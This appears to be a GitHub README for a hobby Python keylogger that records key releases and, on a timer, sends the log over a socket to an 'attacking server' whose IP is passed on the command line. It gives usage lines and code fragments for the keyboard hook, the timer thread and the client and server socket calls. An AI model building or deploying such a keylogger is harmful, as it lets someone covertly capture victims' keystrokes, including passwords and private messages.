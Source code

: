 # Key_Logger_Socket
## Motivation
Build a portfolio for basic python and networking background \
Develop a simple keylogger script with added remote connection feature using python socket module

## Usages
```
Usage:
 -i: interval time
 --ip: IP address of the listening server
 -m: method for report the logged key event
```
Example:
```
python Attack_SVR.py
python Key_Logger_Socket.py -i 5 --ip "localhost" -m "chat_svr"
```
### Note
<br>If no method specified, file_reporting will be used.

## Features
### Keyboard module
```
 keyboard.on_release(callback=callback)
```
<br>For every KeyUp events caught by on_release() method from keyboard class, calls the callback funcntion. Callback function would categorize the KeyUp event and populate the log variable. Using callback allow the next line of code to run without having to wait for the return values of on_release()</br>
### Daemon thread and periodic calling
```
timer = Timer(interval=self.interval, function=self.chat_svr_report)
timer.daemon = True
timer.start()
```
Daemon thread will be killed whenever the main thread (Keyboard) dies. Timer class from threading module will allow this function to call itself periodically every [interval] seconds.
### Network Connection
#### Initialize s socket to create a connection back to attacking server
```
 s = socket.socket(AF_INET,SOCK_STREAM)
```
#### On client side
```
 s.connect()
 s.send()
 s.close()
```
#### On server side
```
 s.bind()
 s.listen()
 s.accept()
```
